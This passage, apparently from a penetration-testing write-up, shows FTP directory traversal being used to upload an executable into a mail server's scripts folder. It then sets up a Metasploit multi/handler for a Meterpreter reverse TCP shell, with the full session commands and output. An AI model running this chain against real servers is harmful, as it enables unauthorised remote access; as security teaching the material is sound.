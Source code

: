 I then uploaded the file to the scripts folder via the FTP directory traversal bug :

```
root@krypt2:/vpn/70# ftp 192.168.6.70
Connected to 192.168.6.70.
220-Complete FTP server
220 FTP Server v 3.3.0
Name (192.168.6.70:peter): devil
331 Password required for devil
Password:
230 User devil logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd \..\..\..\  
250 Directory changed to "/MyDocuments/......".
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/....../......".
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/....../....../......".
ftp> cd surgemail
250 Directory changed to "/MyDocuments/....../....../....../surgemail".
ftp> cd scripts
250 Directory changed to "/MyDocuments/....../....../....../surgemail/scripts".
ftp> bin
200 Type set to I
ftp> put _corelanc0d3r.exe
local: _corelanc0d3r.exe remote: _corelanc0d3r.exe
200 PORT command successful.
150 Opening BINARY mode data connection for _corelanc0d3r.exe
226 Transfer complete.
37888 bytes sent in 0.54 secs (69.1 kB/s)
```

Next, set up a metasploit multi handler and listen for incoming connections :

```
root@krypt2:/pentest/exploits/framework3# ./msfcli multi/handler 
             payload=windows/meterpreter/reverse_tcp 
             lhost=192.168.6.114 lport=4444 E
[*] Please wait while we load the module tree...
[*] Started reverse handler on port 4444
[*] Starting the payload handler...
```

Finally I called the executable from the web browser :

[![image](../../../_resources/72c448e3078d4079a6befc1333730a06.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image15.png)
